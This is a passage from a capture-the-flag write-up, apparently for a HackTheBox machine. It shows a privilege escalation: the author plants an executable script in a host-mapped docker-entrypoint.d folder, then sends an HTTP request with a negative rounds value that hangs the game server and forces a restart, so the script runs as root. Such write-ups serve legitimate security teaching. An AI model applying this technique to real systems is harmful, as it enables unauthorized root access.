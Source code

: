#### Strategy

The strategy here is to abuse the fact that, as the email said, if the server hangs, it will restart. Given that the `docker-entrypoint.d` folder seems mapped into the container from the host, I’ll have my script in that folder and it will be run on restart.

#### POC

I’ll make sure my script is in the `docker-entrypoint.d` folder and executable:

```

drew@earlyaccess:/opt/docker-entrypoint.d$ echo -e '#!/bin/bash\n\ntouch /tmp/0xdf' > 0xdf.sh; chmod +x 0xdf.sh

```

Now, I’ll send the command with a negative number of rounds from Repeater:

```

POST /autoplay HTTP/1.1
Host: 127.0.0.1:9999
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 23
Origin: http://127.0.0.1:9999
DNT: 1
Connection: close
Referer: http://127.0.0.1:9999/autoplay
Upgrade-Insecure-Requests: 1

rounds=-1&verbose=false

```

This request just hangs. After about 30 seconds, my SSH connection to the container dies:

```

game-tester@game-server:/docker-entrypoint.d$ Connection to 172.19.0.3 closed by remote host.
Connection to 172.19.0.3 closed.

```

I few seconds later, the host is back, and I can SSH back in to find `/tmp/0xdf` owned by root:

```

drew@earlyaccess:/opt/docker-entrypoint.d$ ssh game-tester@172.19.0.3
...[snip]...
game-tester@game-server:~$ ls -l /tmp/
total 4
-rw-r--r-- 1 root root    0 Aug 19 01:34 0xdf
drwxr-xr-x 3 root root 4096 Jul  7 17:26 v8-compile-cache-0

```
